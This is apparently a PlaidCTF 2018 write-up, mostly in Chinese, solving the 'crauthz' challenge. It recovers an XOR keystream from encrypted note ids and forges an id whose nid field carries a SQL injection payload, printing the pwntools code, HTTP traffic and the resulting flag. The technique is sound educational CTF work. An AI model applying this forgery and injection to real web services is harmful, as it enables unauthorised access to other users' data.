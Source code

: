 # PlaidCTF 2018 - Notes

## idIoT: Camera
[ctftime_writeup](https://ctftime.org/task/6077)


## crauthz
> Description:
>
> These web developers didn't want to worry too much about input validation - so they applied crypto to the problem. 

[ctftime_writeup](https://ctftime.org/task/6074)
[參考這篇_照做紀錄](https://whit3hat.com/)

根據敘述，知道是 crypto + web


打開網頁
![image](img/7g1rFnN.png)

之後註冊和登入
![image](img/1tPhD0k.png)

可以看到有兩個功能:
1. 新增筆記
2. 看目前的筆記

用 editthiscookie 可以看到有 4 個 cookie

![image](img/Jhc0vHo.png)

全部的資料為:
```
csrf_token: 2b70cd4ad0ba48b2a1942d9ae8c63909

js_csrf_token: 2b70cd4ad0ba48b2a1942d9ae8c63909

sess_data: eyJleHBpcmVzIjogMTUyODUyNTQwOSwgInVpZCI6IDIzNzd9

sess_sig: fb0525accf86d50c4e9f7d9288d49dadb719f988157484af64280993b5b8bed7
```

其中，sess_data 是 base64 encode ，可以 decode 看一下
```python
In [4]: b64d('eyJleHBpcmVzIjogMTUyODUyNTQwOSwgInVpZCI6IDIzNzd9')
Out[4]: '{"expires": 1528525409, "uid": 2377}'
```

而其有簽證: sess_sig


新增一個筆記，用 fiddler 看一下
Request:

```
POST https://crauthz.chal.pwning.xxx/api/make_note HTTP/1.1
Host: crauthz.chal.pwning.xxx
Connection: keep-alive
Content-Length: 79
Accept: application/json, text/javascript, */*; q=0.01
Origin: https://crauthz.chal.pwning.xxx
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.140 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Referer: https://crauthz.chal.pwning.xxx/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-TW,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: sess_data=eyJleHBpcmVzIjogMTUyODUyNTQwOSwgInVpZCI6IDIzNzd9; sess_sig=fb0525accf86d50c4e9f7d9288d49dadb719f988157484af64280993b5b8bed7; csrf_token=2b70cd4ad0ba48b2a1942d9ae8c63909; js_csrf_token=2b70cd4ad0ba48b2a1942d9ae8c63909

title=titleXD&contents=ContentsXDDD&csrf_token=2b70cd4ad0ba48b2a1942d9ae8c63909
```

而 Response

```
HTTP/1.1 200 OK
Server: nginx/1.10.3 (Ubuntu)
Date: Thu, 10 May 2018 06:58:47 GMT
Content-Type: application/json
Content-Length: 99
Connection: keep-alive
Content-Security-Policy: script-src 'nonce-19128bac4b'; style-src https://maxcdn.bootstrapcdn.com/ 'nonce-19128bac4b'

{"id": "p9wpRtHrhrdv9BjnxETcd7SAjvSa9Oeo48TmozJnDX7bBCs=", "result": "success", "title": "titleXD"}
```

把 id 拿去 base64 decode ，看起來應該是加密過的密文，或許這裡就是題目說的 input validation
```
In [5]: b64d("p9wpRtHrhrdv9BjnxETcd7SAjvSa9Oeo48TmozJnDX7bBCs=")
Out[5]: '\xa7\xdc)F\xd1\xeb\x86\xb7o\xf4\x18\xe7\xc4D\xdcw\xb4\x80\x8e\xf4\x9a\xf4\xe7\xa8\xe3\xc4\xe6\xa32g\r~\xdb\x04+'
```

再重新新增一個筆記，但給超大的內容，看 id 的變化
![image](img/cRZhbV6.png)

看一下得到的 id 
```
第一次得到的 id: p9wpRtHrhrdv9BjnxETcd7SAjvSa9Oeo48TmozJnDX7bBCs=

第二次得到的 id: p9wpRtHrhrdv9BjnxETcd7SAjvSa9Oeo48TmozJnDX7bBSs=
```

發現基本沒變化，只有最後第三個字元不同


這裡重新註冊一個帳號並登入，故意使帳號名稱很長


帳號名稱: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

新增一個筆記，title = gg , content = test，發現得到的 id 很長

```
{"id": "p9wpRtHrhrdv9BjnxETcZbqNlrfXtaSn68Gl-HM3XC2DUTd4cZrWQ5L19CmnYHJUAE4CyZGCygicHSc_4YfvQ6xsP0A6x2n3mTGqcSVCfR1nqlhF9Av7l3dKwtCXm6wjFpRHOEJE3ADtWFhv5B7tF0xwu-HoQfU-irtmQI8PETDgAdrQx89Ot-QMllgJ8EI0KttjK6Wdp3r_uTg_xLFQcbVUtRjqx78gnkNXGMF_DkE=", "result": "success", "title": "gg"}
```

所以這代表這串密文裡面，一定有某部分是 username


這裡把 id 的 base64 encode 中的 - 改成 + ，和 _ 改成 /


可以嘗試一下:
```
from pwn import *

s1 = "p9wpRtHrhrdv9BjnxETcd7SAjvSa9Oeo48TmozJnDX7bBCs="
s2 = "p9wpRtHrhrdv9BjnxETcZbqNlrfXtaSn68Gl-HM3XC2DUTd4cZrWQ5L19CmnYHJUAE4CyZGCygicHSc_4YfvQ6xsP0A6x2n3mTGqcSVCfR1nqlhF9Av7l3dKwtCXm6wjFpRHOEJE3ADtWFhv5B7tF0xwu-HoQfU-irtmQI8PETDgAdrQx89Ot-QMllgJ8EI0KttjK6Wdp3r_uTg_xLFQcbVUtRjqx78gnkNXGMF_DkE="

s2_name = "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"

s1 = b64d(s1)
s2 = b64d(s2.replace('-', '+').replace('_', '/'))

key = xor(s2, s2_name)
print xor(s1, key)
```

我們可以得到 `aaaaaaaaaaaaaaasoly", "nid": 10294}`


這裡可以知道最前面 15 bytes 無法解密 ("aaaaaaaaaaaaaaa")


這裡在 nid 嘗試 sql injection ，在 nid 構造: `'aaaaaaaaaaaaaaasoly", "nid": "1\u0027 or 2=2 limit 1#"}'`

```python
from pwn import *
a = 'aaaaaaaaaaaaaaasoly", "nid": "1\u0027 or 2=2 limit 1#"}'
a = xor(a, key)[:len(a)] # key 是剛剛算出的
a = b64e(a).replace('+', '-').replace('/', '_').replace('=', '%3d')

# print a
# YWFhYWFhYWFhYWFhYWFhc29seSIsICJuaWQiOiAiMVx1MDAyNyBvciAyPTIgbGltaXQgMSMifQ%3d%3d
# \u0027 = '

```



這裡再用 soly 登入後，點任何一個已經新增的 note，改 request 的 nid 為上面的 a 的值，可以得到:
```
{"result": "success", "contents": "PCTF{ok_but_maybe_it_would_have_worked_with_better_crypto}", "title": "Flag"}
```

